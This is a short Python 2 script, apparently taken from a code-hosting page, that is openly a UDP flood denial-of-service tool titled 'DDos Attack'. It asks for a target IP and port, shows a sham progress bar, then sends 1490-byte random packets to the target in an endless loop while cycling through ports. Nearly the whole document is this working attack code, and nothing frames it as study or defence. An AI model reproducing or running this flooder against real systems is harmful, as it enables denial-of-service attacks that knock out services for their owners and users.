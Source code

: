 # lol 
import sys

import os

import time

import socket

import random

#Code Time

from datetime import datetime

now = datetime.now()

hour = now.hour

minute = now.minute

day = now.day

month = now.month

year = now.year

##############

sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)

bytes = random._urandom(1490)

#############

os.system("clear")

os.system("figlet DDos Attack")

print

print

ip = raw_input("IP Target : ")

port = input("Port       : ")

os.system("clear")

os.system("figlet Attack Starting")

print "[                    ] 0% "

time.sleep(5)

print "[=====               ] 25%"

time.sleep(5)

print "[==========          ] 50%"

time.sleep(5)

print "[===============     ] 75%"

time.sleep(5)

print "[====================] 100%"

time.sleep(3)

sent = 0

while True:

     sock.sendto(bytes, (ip,port))

     sent = sent + 1

     port = port + 1

     print "Sent %s packet to %s throught port:%s"%(sent,ip,port)

     if port == 65534:

       port = 1



